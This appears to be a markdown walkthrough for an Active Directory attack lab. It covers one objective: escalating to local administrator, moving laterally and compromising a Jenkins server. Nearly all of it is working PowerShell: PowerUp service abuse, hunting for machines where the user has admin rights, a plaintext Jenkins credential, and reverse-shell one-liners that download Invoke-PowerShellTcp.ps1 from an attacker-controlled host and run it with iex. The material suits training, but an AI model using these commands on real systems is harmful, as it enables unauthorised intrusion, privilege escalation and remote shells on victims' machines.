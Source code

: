 
# Local Privilege Escalation
### Objective 5:

- Exploit a service on dcorp-studentx and elevate privileges to local administrator. 
- Identify a machine in the domain where studentx has local administrative access. 
- Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.


####Local Privilege Escalation And Jenkins Exploitation..
```powershell


. .\PowerUp.ps1
Invoke-AllChecks
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose

OR

Get-ModifiableService
Get-ServiceUnquoted

```


Find Local Admin Privileges on other machine using `Find-PSRemotingLocalAdminAccess` Access that machine using `winrs` utility. (Lateral Movement)
```powershell

###Find machine on which the current user have admin access..

. .\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess



###Getting access to the machine on which student477 has local admin access...

winrs -r:dcorp-adminsrv cmd
OR
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local


####Exploiting Jenkins With Creds- builduser:builduser
####Reverse Shell Commands
Step 1: Host Invoke-PowerShellTcp.ps1 on python or HFS Server.
Step 2: Execute this cmd on target Server

powershell.exe iex (iwr http://172.16.100.77/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.77 -Port 443

OR

powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/InvokePowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
```

